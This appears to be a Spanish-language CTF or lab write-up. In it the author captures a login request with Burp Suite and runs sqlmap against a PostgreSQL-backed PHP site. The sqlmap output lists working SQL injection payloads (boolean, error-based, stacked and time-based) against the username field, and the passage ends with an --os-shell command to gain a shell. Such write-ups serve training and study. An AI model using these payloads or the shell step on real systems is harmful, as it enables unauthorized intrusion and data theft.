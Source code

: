 Vamos a hacer un escaneo con sqlmap a ver que podemos sacar de esto ya que el login es bastante vulnerable.

Empezamos entrado a **Burp Suite** para poder capturar el inicio de sesión con usuario y contraseña aleatorio.

Intercepté la petición y me la guardé en una de mis carpetas de la jerarquía.

![](burp.webp)

Con la herramienta **sqlmap** vamosa realizar el escaneo.

`sqlmap  -r <nombre del fichero> --risk=3 --level=3 --batch --force-ssl`

- **risk=3**: prueba inyecciones más peligrosas (más potentes, pero más intrusivas).
- **level=3**: aumenta la cantidad y variedad de pruebas (más parámetros analizados).
- **batch**: modo automático, sin preguntas (usa respuestas por defecto).
- **force-ssl**: fuerza el uso de HTTPS en las peticiones.

```console
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: username=-4252' OR 7178=7178-- epOc&password=admin

    Type: error-based
    Title: PostgreSQL AND error-based - WHERE or HAVING clause
    Payload: username=admin' AND 9500=CAST((CHR(113)||CHR(118)||CHR(107)||CHR(107)||CHR(113))||(SELECT (CASE WHEN (9500=9500) THEN 1 ELSE 0 END))::text||(CHR(113)||CHR(122)||CHR(113)||CHR(106)||CHR(113)) AS NUMERIC)-- Tpee&password=admin

    Type: stacked queries
    Title: PostgreSQL > 8.1 stacked queries (comment)
    Payload: username=admin';SELECT PG_SLEEP(5)--&password=admin

    Type: time-based blind
    Title: PostgreSQL > 8.1 AND time-based blind
    Payload: username=admin' AND 6168=(SELECT 6168 FROM PG_SLEEP(5))-- ixfY&password=admin
---
[16:43:44] [INFO] the back-end DBMS is PostgreSQL
web server operating system: Linux Debian 10 (buster)
web application technology: PHP 7.3.14, Apache 2.4.38
back-end DBMS: PostgreSQL
[16:43:44] [INFO] fetched data logged to text files under '/home/tompare/.local/share/sqlmap/output/admin.megalogistic.com'
[16:43:44] [WARNING] your sqlmap version is outdated
```

Me ha mostrado que el campo username es vulnerable como ya hemos comprobado antes por lo que vamos a intentar ganar acceso al PostgreSQL mediante el comando siguiente:

`sqlmap  -r <nombre del fichero> --risk=3 --level=3 --batch --force-ssl --os-shell`

![](shell.webp)
